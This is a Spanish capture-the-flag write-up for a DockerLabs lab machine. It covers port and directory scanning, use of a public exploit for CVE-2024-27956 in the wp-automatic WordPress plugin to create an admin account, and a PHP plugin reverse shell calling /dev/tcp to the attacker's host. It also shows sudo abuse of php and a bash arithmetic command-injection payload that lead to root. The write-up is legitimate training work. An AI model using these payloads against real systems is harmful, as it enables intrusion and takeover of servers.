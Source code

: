 # Maquina Master

Lo primero que deberemos de hacer será escanear los posibles puertos que se encuentre abiertos en la máquina:

```shell 
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```
![NMAP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto.png)

Vemos que únicamente tiene abierto un puerto, el 80, por lo que vamos a ver que hay en la página web:

![HOME](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto2.png)

No hay mucha cosa interesante, en el código fuente tampoco encontramos nada, sin embargo, podemos observar en la parte de abajo que nos dice que está utilizando wp-automatic 3.92.0, tendremos esto en cuenta ya que nos servirá en un futuro. Al no encontrar nada relevante realizaremos fuzzing web con gobuster:

```shell 
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![GOBUSTER](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto3.png)

Vemos que cuenta con un wordpress (lo podíamos deducir por el wp-automatic de antes también). Si nos poníamos encima de alguno de los diferentes cursos que había veíamos que había un usuario “Mario”, por lo que lo normal sería intentar obtener su contraseña y entrar al panel de administración de Wordpress, os adelanto que no es la solución ya que lo intente y no conseguí obtener su contraseña.

Ahora es cuando entra en juego el wp-automatic de antes, si buscamos información acerca de esta versión en google acompañado de la palabra exploit vemos esto:

![WEB](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto4.png)

https://thehackernews.com/2024/04/hackers-exploiting-wp-automatic-plugin.html

Si accedemos a la web vemos que aparece un CVE que puede que podamos utilizar:

![WEB2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto5.png)

Si buscamos el CVE en Google vemos que hay un exploit en github, así que vamos a probar si funciona:

https://github.com/diego-tella/CVE-2024-27956-RCE

Si seguimos los pasos que nos indica vemos que tras ejecutar el exploit nos crea un usuario con nombre “eviladmin” y con contraseña “admin”:

![CVE](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto6.png)

Intentamos acceder con el usuario que nos ha creado el exploit y ole, ya estamos dentro del panel de administración. Ahora vamos a intentar subir una reverse shell en forma de plugin:

![WP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto7.png)

![WP2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto8.png)

Una vez aquí vemos que unicamente nos deja subir archivos con extensión .zip, por lo que vamos a investigar como poder subir una reverse shell en .zip a un wordpress:

![WEB3](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto9.png)

https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Dentro de la página copiamos el contenido que nos pone y lo metemos en un fichero con nombre reverse.php (puedes poner el que quieras).

```shell
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

![ZIP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto10.png)

Una vez tenemos el archivo en .zip vamos a intentar subirlo a ver que ocurre:

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto11.png)

Vemos que se ha subido correctamente y que nos da la opción de activarlo, antes de activarlo debemos de ponernos en escucha por el puerto que hayamos configurado para poder recibir la reverse shell:

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto12.png)

Ya estamos dentro de la máquina, por lo que primero que debermeos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Si ejecutamos el comando sudo -l vemos que podemos ejecutar php como el usuario pylon, por lo que vamos a buscar como hacerlo en GTFOBins:

https://gtfobins.github.io/gtfobins/php/#sudo

```shell
sudo -u pylon php -r "system('/bin/bash');"
```

Una vez lo ejecutamos nos convertimos en el usuario pylon, ahora repetimos el proceso y vemos que podemos ejecutar un script como el usuario “mario”. Este script nos pide introducir un parámetro, por lo que podemos intentar introducir un /bin/bash para ver si obtenemos la bash como el usuario mario:

```shell
a[$(/bin/bash >&2)]
```
![EP](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto13.png)

Y ahí esta, somos el usuario mario. Ahora si ejecutamos de nuevo sudo -l vemos que podemos ejecutar otro script como root, ese script también nos pide un parámetro por lo que vamos a intentar reutilizar lo mismo que hemos hecho antes para obtener la escalada:

![EP2](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/photos/foto14.png)

![PLUGIN](https://github.com/Isma-yo/Write-Ups-DockerLabs/blob/main/Maquina%20Master/assets/Activado.jpg)

